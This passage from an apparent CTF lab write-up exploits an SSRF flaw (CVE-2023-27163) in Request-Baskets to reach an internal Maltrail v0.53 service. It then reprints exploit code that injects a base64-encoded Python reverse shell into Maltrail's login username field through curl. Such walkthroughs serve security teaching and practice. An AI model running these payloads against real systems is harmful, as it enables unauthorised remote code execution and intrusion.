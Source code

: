 ![image-20240104104117044](/img/image-20240104104117044.png)

#### Exploit

There’s a nice POC [here](https://github.com/entr0pie/CVE-2023-27163/blob/main/CVE-2023-27163.sh) to exploit this. I’ll run it to try to read port 80:

```

oxdf@hacky$ ./cve-2023-27163.sh http://10.10.11.224:55555 http://127.0.0.1:80
Proof-of-Concept of SSRF on Request-Baskets (CVE-2023-27163) || More info at https://github.com/entr0pie/CVE-2023-27163

> Creating the "nunfxp" proxy basket...
> Basket created!
> Accessing http://10.10.11.224:55555/nunfxp now makes the server request to http://127.0.0.1:80.
> Authorization: jNZBYjgQRAzttysfJcl5dcKLBO0YkzLVCkYgEQsbZzXs

```

It gives a URL I can visit to see the results:

![image-20240104104623782](/img/image-20240104104623782.png)

The CSS and images aren’t loading, but I can at least see it’s Mailtrail v0.53.

I’ll try the same thing on 8338, and find it’s the same application.

### RCE in Mailtrail

#### Identify

Searching for “Mailtrail exploit”, the first hit is [this repo](https://github.com/spookier/Maltrail-v0.53-Exploit) which has an unauthenticated code execution vulnerability in Mailtrail v0.53. The login page doesn’t sanitize the input for the username parameter, which leads to OS command injection.

#### Script Analysis

This script is pretty hacky, using `os.system` in Python to call `curl` to make the request:

```

def curl_cmd(my_ip, my_port, target_url):
	payload = f'python3 -c \'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("{my_ip}",{my_port}));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")\''
	encoded_payload = base64.b64encode(payload.encode()).decode()  # encode the payload in Base64
	command = f"curl '{target_url}' --data 'username=;`echo+\"{encoded_payload}\"+|+base64+-d+|+sh`'"
	os.system(command)

```

It’s a simple POST request to the given url plus `/login`.
